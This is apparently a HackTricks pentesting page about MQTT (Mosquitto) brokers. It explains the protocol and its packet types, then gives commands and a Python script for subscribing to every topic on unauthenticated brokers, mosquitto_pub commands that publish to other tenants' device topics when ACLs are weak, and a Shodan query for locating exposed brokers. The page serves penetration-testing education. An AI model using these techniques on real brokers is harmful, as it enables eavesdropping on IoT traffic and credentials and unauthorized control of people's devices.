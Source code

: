 # 1883 - Pentesting MQTT (Mosquitto)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**MQ Telemetry Transport (MQTT)** is known as a **publish/subscribe messaging protocol** that stands out for its extreme simplicity and lightness. This protocol is specifically tailored for environments where devices have limited capabilities and operate over networks that are characterized by low bandwidth, high latency, or unreliable connections. The core objectives of MQTT include minimizing the usage of network bandwidth and reducing the demand on device resources. Additionally, it aims to maintain reliable communication and provide a certain level of delivery assurance. These goals make MQTT exceptionally suitable for the burgeoning field of **machine-to-machine (M2M) communication** and the **Internet of Things (IoT)**, where it's essential to connect a myriad of devices efficiently. Moreover, MQTT is highly beneficial for mobile applications, where conserving bandwidth and battery life is crucial.

**Default port:** 1883

```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```

## Inspecting the traffic

When a **CONNECT** packet is received by MQTT brokers, a **CONNACK** packet is sent back. This packet contains a return code which is crucial for understanding the connection status. A return code of **0x00** means that the credentials have been accepted, signifying a successful connection. On the other hand, a return code of **0x05** signals that the credentials are invalid, thus preventing the connection.

For instance, if the broker rejects the connection due to invalid credentials, the scenario would look something like this:

```
{
  "returnCode": "0x05",
  "description": "Connection Refused, not authorized"
}
```

![](<../images/image (976).png>)

### [**Brute-Force MQTT**](../generic-hacking/brute-force.md#mqtt)

## Pentesting MQTT

**Authentication is totally optional** and even if authentication is being performed, **encryption is not used by default** (credentials are sent in clear text). MITM attacks can still be executed to steal passwords.

To connect to a MQTT service you can use: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell) and subscribe yourself to all the topics doing:

```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```

You could also use [**https://github.com/akamai-threat-research/mqtt-pwn**](https://github.com/akamai-threat-research/mqtt-pwn)

You can also use:

```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```

Or you could **run this code to try to connect to a MQTT service without authentication, subscribe to every topic and listen them**:

```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
	client.subscribe('#', qos=1)
	client.subscribe('$SYS/index.html#')

def on_message(client, userdata, message):
	print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
	client = mqtt.Client()
	client.on_connect = on_connect
	client.on_message = on_message
	client.connect(HOST, PORT)
	client.loop_start()
	#time.sleep(10)
	#client.loop_stop()

if __name__ == "__main__":
	main()
```

### The Publish/Subscribe Pattern <a href="#b667" id="b667"></a>

The publish/subscribe model is composed of:

- **Publisher**: publishes a message to one (or many) topic(s) in the broker.
- **Subscriber**: subscribes to one (or many) topic(s) in the broker and receives all the messages sent from the publisher.
- **Broker**: routes all the messages from the publishers to the subscribers.
- **Topic**: consists of one or more levels that are separated by a a forward slash (e.g., /smartshouse/livingroom/temperature).

### Packet Format <a href="#f15a" id="f15a"></a>

Every MQTT packet contains a fixed header (Figure 02).Figure 02: Fixed Header

![https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png)

### Packet Types

- CONNECT (1): Initiated by the client to request a connection to the server.
- CONNACK (2): The server's acknowledgment of a successful connection.
- PUBLISH (3): Used to send a message from the client to the server or vice versa.
- PUBACK (4): Acknowledgment of a PUBLISH packet.
- PUBREC (5): Part of a message delivery protocol ensuring the message is received.
- PUBREL (6): Further assurance in message delivery, indicating a message release.
- PUBCOMP (7): Final part of the message delivery protocol, indicating completion.
- SUBSCRIBE (8): A client's request to listen for messages from a topic.
- SUBACK (9): The server's acknowledgment of a SUBSCRIBE request.
- UNSUBSCRIBE (10): A client's request to stop receiving messages from a topic.
- UNSUBACK (11): The server's response to an UNSUBSCRIBE request.
- PINGREQ (12): A heartbeat message sent by the client.
- PINGRESP (13): Server's response to the heartbeat message.
- DISCONNECT (14): Initiated by the client to terminate the connection.
- Two values, 0 and 15, are marked as reserved and their use is forbidden.

## IoT MQTT ecosystem attacks: plaintext brokers and topic ACL bypass

Many consumer IoT platforms expose MQTT brokers that are used by two distinct roles:
- Gateway/hub devices that bridge radio protocols (e.g., BLE/LoRa/Zigbee) to the cloud.
- Mobile apps or web backends that control devices via “app” topics.

Common weaknesses you can abuse during a pentest:

- Plaintext MQTT over non-standard ports (e.g., TCP/8001) instead of MQTTS. Any on-path observer can read credentials and control frames. Use Wireshark to spot cleartext CONNECT/CONNACK and SUBSCRIBE/PUBLISH traffic on unusual ports.
- Weak or missing per-tenant topic ACLs. If topics are namespaced only by deviceId (e.g., "/tenantless/<deviceId>/tx"), any authenticated user might PUBLISH to other tenants’ devices.
- Sensitive data leakage via maintenance/admin topics (e.g., Wi‑Fi credentials broadcast in cleartext after config changes).

Examples (replace placeholders with real values):

Subscribe to potentially sensitive topics with known topic prefixes and device IDs:

```bash
# Using mosquitto_sub
mosquitto_sub -h <broker> -p <port> -V mqttv311 \
  -i <client_id> -u <username> -P <password> \
  -t "<topic_prefix>/<deviceId>/admin" -v
```

Cross-tenant control when ACLs are weak (publish to another tenant’s device topic):

```bash
mosquitto_pub -h <app-broker> -p <port> -V mqttv311 \
  -i <your_client_id> -u <your_username> -P <your_password> \
  -t "/ys/<victimDeviceId>/tx" \
  -m '{"method":"Device.setState","params":{"state":{"power":"on"}},"targetDevice":"<victimDeviceId>"}'
```

## Shodan

- `port:1883 MQTT`
- MQTT plaintext on non-standard ports is common in IoT. Consider searching for brokers on alternative ports and confirm with protocol detection.

## References

- [How a $20 Smart Device Gave Me Access to Your Home](https://bishopfox.com/blog/how-a-20-smart-device-gave-me-access-to-your-home)

{{#include ../banners/hacktricks-training.md}}
